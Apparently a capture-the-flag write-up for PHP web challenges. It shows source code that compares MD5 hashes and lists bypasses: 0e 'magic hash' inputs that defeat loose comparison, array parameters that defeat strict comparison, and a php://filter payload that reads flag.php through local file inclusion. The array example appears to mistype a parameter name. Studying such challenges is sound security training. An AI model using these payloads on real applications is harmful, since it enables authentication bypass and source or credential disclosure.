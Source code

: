 ```php
<?php

include("flag.php");

highlight_file(__FILE__);

if (isset($_POST['a']) and isset($_POST['b'])) {
    if ($_POST['a'] != $_POST['b'] and md5($_POST['a']) == md5($_POST['b']))
        echo $flag1;
else
    print 'Wrong.';
}

if (isset($_POST['c']) and isset($_POST['d'])) {
    if ($_POST['c'] != $_POST['d'] and md5($_POST['c']) === md5($_POST['d']))
        echo $flag2;
else
    print 'Wrong.';
}

?>
```

```shell
# flag1
s1502113478a
0e861580163291561247404381396064
  
s1885207154a
0e509367213418206700842008763514
  
s1836677006a
0e481036490867661113260034900752
  
s155964671a
0e342768416822451524974117254469
  
s1184209335a
0e072485820392773389523109082030
#弱比较，使用科学记数法绕过

#flag2
使用数组绕过c[]=1&b[]=2
```

# LFI1

```php
// php伪协议读取文件内容
php://filter/read=convert.base64-encode/resource=flag.php
```
